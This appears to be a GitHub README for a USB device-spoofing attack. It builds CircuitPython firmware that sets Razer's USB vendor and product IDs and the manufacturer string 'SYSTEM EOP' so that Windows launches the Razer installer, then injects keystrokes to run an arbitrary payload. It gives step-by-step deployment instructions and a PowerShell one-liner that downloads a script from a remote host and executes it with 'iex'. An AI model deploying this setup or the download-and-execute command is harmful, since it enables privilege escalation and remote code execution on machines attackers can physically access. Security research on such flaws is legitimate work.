 https://user-images.githubusercontent.com/2515062/132268952-057c93f4-9aee-4d4b-af35-2ac3cd875253.mp4

Designed for https://wiki.seeedstudio.com/Seeeduino-XIAO/, but should work on any board that can run circuitpython and has USB.

Either compile your own, or use `Seeeduino_XIAO_fake_razor_firmware.uf2` if you are using the Seeeduino XIAO.

# Howto

1. Put board into load firmware mode (trigger reset twice for the XIAO)
2. Put the firmware .uf2 file on the USB drive that appears
3. Wait for chip to reboot. It should show up as a Raxor device (and start the installer if it hasnt already run on the PC)
4. Adjust `main.py` to run your own payload, possibly also adjust wait time for installer to launch
5. Put `boot.py`, `main.py` and `adafruit_hid` on the circuitpython drive

To re-trigger the Razor installer if it has already launched once, right click the device in `Control Panel\Hardware and Sound\Devices and Printers` and select `Remove Device` then re-plug the chip.

# Building your own firmware

Clone https://github.com/adafruit/circuitpython and change `ports/<cpu type>/boards/<board>/mpconfigboard.mk` (e.g. `ports/atmel-samd/boards/seeeduino_xiao/mpconfigboard.mk`) so that 

```
USB_VID = 0x1532
USB_PID = 0x023e
```

Optionally also set
```
USB_PRODUCT = "Razer device"
USB_MANUFACTURER = "SYSTEM EOP"
```

then build for that board.

# Nyan

Run `nyan.ps1` to get nyan cat (popping calc.exe is lame).
Use `cmd /c start powershell -noexit -c "iex (New-Object Net.WebClient).DownloadString('http://host/nyan.ps1')"` to start in a new window.
